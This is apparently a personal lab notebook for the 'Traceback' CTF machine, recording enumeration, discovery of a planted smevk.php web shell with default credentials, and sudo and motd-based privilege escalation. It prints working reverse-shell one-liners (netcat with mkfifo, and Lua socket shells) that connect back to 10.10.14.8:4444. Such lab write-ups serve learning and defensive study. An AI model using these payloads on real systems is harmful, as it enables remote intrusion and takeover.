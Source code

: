 # <span style="color:[COLOR]">Machine #17 Traceback</span>  


## <span style="color:[COLOR]">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
<img src="wappalyzer.png"> 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

```cmd
rm /tmp/a;mkfifo /tmp/a;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/a
```

```lua
lua5.1 -e 'local host, port = "10.10.14.8", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

```lua
require('socket');require('os');t=socket.tcp();t:connect('10.10.14.8','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');
```
* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

* I just have getting the root left.
```lua
#\!/usr/local/bin/lua
os.execute("/bin/bash");
```

```
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```


<br/><br/>



## <span style="color:[COLOR]">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->